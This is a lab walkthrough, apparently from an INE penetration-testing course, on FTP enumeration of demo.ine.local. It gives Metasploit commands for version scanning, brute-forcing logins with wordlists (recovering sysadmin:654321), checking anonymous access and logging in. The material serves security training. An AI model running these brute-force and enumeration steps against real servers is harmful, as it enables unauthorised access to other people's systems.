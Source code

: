 # FTP Enumeration

1. Check if the target machine is reachable:
   ```
   ping -c 4 demo.ine.local
   ```
   ![image](https://github.com/user-attachments/assets/71c0e66d-a731-4415-a435-a5a7edffe232)

   The target is reachable.

2. Start Metasploit using `msfconsole`. We need to identify a service version of the FTP server running on the target, this can be done by loading the following module:
   ```
   use auxiliary/scanner/ftp/ftp_version
   ```
   We will now need to configure the module options, more specifically, the target option, this can be done by running the following command:
   ```
   set RHOSTS demo.ine.local
   ```
   Then enter `run`

3. As shown in the following screenshot, the module reveals that the target system is running ProFTPD 1.3.5a
   ![image](https://github.com/user-attachments/assets/95d8110b-b253-434c-b3d5-c203b040ec9e)
   
4. We can perform a brute-force on the FTP server to identify legitimate credentials that we can use for authentication, this can be done by loading the ftp_login module as follows:
   ```
   use auxiliary/scanner/ftp/ftp_login
   ```
   We will now need to configure the module options, more specifically, the target option, this can be done by running the following command:
   ```
   set RHOSTS demo.ine.local
   ```
   Given that we are performing a brute force attack, we will also need to configure the USER_FILE and PASS_FILE options.
   ```
   set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
   set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
   ```
   Then run the module using `run`

5. As shown in the following screenshot, the brute force attack identifies the credentials sysadmin:654321
   ![image](https://github.com/user-attachments/assets/baeae2af-85b6-4f04-8c64-8b2ff229ef04)
   We can also check if anonymous logons are allowed on the FTP server, this can be done by using the following commands:
   ```
   use auxiliary/scanner/ftp/anonymous
   set RHOSTS demo.ine.local
   run
   ```
6. As shown in the following screenshot, the module reveals that anonymous FTP logons are not enabled on the FTP server.
   ![image](https://github.com/user-attachments/assets/75534d3a-e151-46d0-9433-5e6b25d07393)
   We can now login to the FTP server with the credentials we obtained from the FTP brute force, this can be done through the use of the FTP client on Kali Linux.
   ```
   ftp demo.ine.local
   ```
7. As shown in the following screenshot, you will be prompted to provide a username and password, supply the credentials we obtained from the brute force attack. Authentication is successful and we are logged in to the FTP server.
   ![image](https://github.com/user-attachments/assets/b116ec8c-2f1e-4448-b2ba-251e9c41db75)

   




